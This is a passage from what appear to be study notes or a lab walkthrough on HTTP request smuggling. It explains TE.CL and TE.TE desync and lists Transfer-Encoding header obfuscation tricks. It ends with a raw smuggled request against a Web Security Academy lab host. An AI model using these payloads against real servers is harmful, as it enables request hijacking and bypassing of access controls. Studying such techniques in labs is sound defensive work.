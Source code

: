 - First request (from front to back):
    - Interpret only the first chunk and read up to just before the last 0.
    - This is where the front server prioritizes the **`Content-Length`** header over **`Transfer-Encoding`**.
    - The goal is to have the back server only read up to just before the **`GPOST`** method.
- Second request (from front to back):
    - Read the last chunk.
    - This is where the front server continues to read the remaining data and sends it to the back server.
- Second request (from back to front):
    - Start reading from where the first request left off, just after the **`0`** in the chunk.
    - This is where the back server prioritizes the **`Transfer-Encoding`** header over **`Content-Length`**.
    - Read from where the **`GPOST`** method begins.

TE.TE

Exploit the difference in interpretation between the front-end and back-end using the following obfuscation techniques:

```
# nonexistent value
Transfer-Encoding: xchunked

# Add space or tab before/after header name/value
[space or tab]Transfer-Encoding[space or tab]:[space or tab]chunked[space or tab]

# Duplicate header.
Transfer-Encoding: chunked
Transfer-Encoding: x

# Injecting newlines
Transfer-Encoding
: chunked

X: X[\n]Transfer-Encoding: chunked
```

If, for example, the front-end server takes the beginning (chunked) and the backend server takes the subsequent (x) for Transfer-Encoding when making the following request, the same principle as [TE.CL](http://te.cl/) type can be used to send the GPOST method to the backend server.

```
POST / HTTP/1.1
Host: 0ac500c40470c397c02e125a007e00d6.web-security-academy.net
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: x

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```
